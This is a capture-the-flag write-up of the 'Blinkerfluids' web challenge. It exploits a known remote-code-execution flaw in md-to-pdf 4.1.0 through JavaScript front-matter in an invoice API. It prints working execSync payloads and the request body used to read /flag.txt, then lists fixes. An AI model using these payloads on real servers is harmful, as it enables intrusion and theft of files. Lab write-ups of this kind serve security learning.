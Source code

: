 ```yaml
---
layout: default
title: Blinkerfluids
---
```


# [Cyber Apocalypse](index.md) - Web - Blinkerfluids

> Once known as an imaginary liquid used in automobiles to make the blinkers work is now one of the rarest fuels invented on Klaus' home planet Vinyr. The Golden Fang army has a free reign over this miraculous fluid essential for space travel thanks to the Blinker Fluids™ Corp. Ulysses has infiltrated this supplier organization's one of the HR department tools and needs your help to get into their server. Can you help him?

![Blinkerfluids screenshot](web-blinkerfluids/screenshot-00.png)


In this challenge, a web application allows the user to create a markdown based invoice, and it will convert it to PDF. 

We are given a copy of the source code, so the first thing I do is explore that.

The web app is a docker container that runs a `node.js` based javascript web app.

The `Dockerfile` tells us that the flag can be found at /flag.txt:
```Dockerfile
# Add flag
COPY flag.txt /flag.txt
```

The file `MDHelper.js` contains code that uses the `md-to-pdf` module to convert a MarkDown document to a PDF.

```javascript
const { mdToPdf }    = require('md-to-pdf')
const { v4: uuidv4 } = require('uuid')

const makePDF = async (markdown) => {
    return new Promise(async (resolve, reject) => {
        id = uuidv4();
        try {
            await mdToPdf(
                { content: markdown },
                {
                    dest: `static/invoices/${id}.pdf`,
                    launch_options: { args: ['--no-sandbox', '--js-flags=--noexpose_wasm,--jitless'] } 
                }
            );
            resolve(id);
        } catch (e) {
            reject(e);
        }
    });
}

module.exports = {
    makePDF
};
```
We can see that it dumps the finished PDF files in `./static/invoices/`.

A quick google search for "md-to-pdf exploits" leads me to numerous sites describing a Remote Code Execution vulnerability in this module prior to version `5.0.0`. The `package.json` file tells me that the version of this plugin that the app is using is `4.1.0`, so we should be able to use this to grab the flag.

The code in `MDHelper` doesn't appear to do any sanitization of the input, it just takes the raw input from the API endpoint and runs it through md-to-pdf. 

The proof of concept code for this exploit tells me that if I give it the following payload, I can run arbitrary commands on the server:
```
---jsn((require("child_process")).execSync("id > /tmp/RCE.txt"))n---RCE
```
Just typing this into the website produces an error.

![Blinkerfluids screenshot](web-blinkerfluids/screenshot-01.png)

There is likely some sanitization code on the client-size (I didn't check), but I didn't see any on the API side when looking in the code, so lets try talking directly to the API.

I used [Insomnia](https://insomnia.rest) to send the following request body directly to `http://challenge-ip-and-port/api/invoice/add`. I had to replace the double-quotes with single-quotes, from the proof of concept code.
```json
{
    "markdown_content" : "---js\n((require('child_process')).execSync('cat /flag.txt > static/invoices/flag.txt'))\n---RCE"
}
```

![Blinkerfluids screenshot](web-blinkerfluids/screenshot-02.png)

The response I got back was:
```json
{
    "message" : "Invoice saved successfully!"
}
```

Now all I needed to do was to visit `http://challenge-ip-and-port/static/invoices/flag.txt` to view the flag.

```
HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}
```

I had originally tried to coax it into putting the flag data into the PDF, but realized I could just copy the file directly to a web-viewable directory and ignore the PDF.

This exploit could have been thwarted by:
 - Updating md-to-pdf to version 5.0.0 or above
 - Sanitizing user input in the API controller to only allow MarkDown
 - Running the app using a limited user account in the Docker container and setting proper permissions for sensitive files in the container.

